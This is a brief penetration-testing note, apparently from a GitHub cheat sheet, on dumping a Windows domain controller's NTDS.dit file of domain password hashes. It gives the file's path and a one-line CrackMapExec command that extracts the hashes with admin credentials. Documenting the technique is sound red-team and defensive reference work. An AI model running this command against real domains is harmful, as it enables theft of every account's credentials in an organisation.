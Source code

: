 # Dumping NTDS.dit

NTDS.dit contains all the info on the domain (hashes...), contained on the DC in **C:\Windows\NTDS\ntds.dit**

```bash
# dump ntds on domain controller
cme smb $dc_ip -u $admin -p $pass --ntds
```
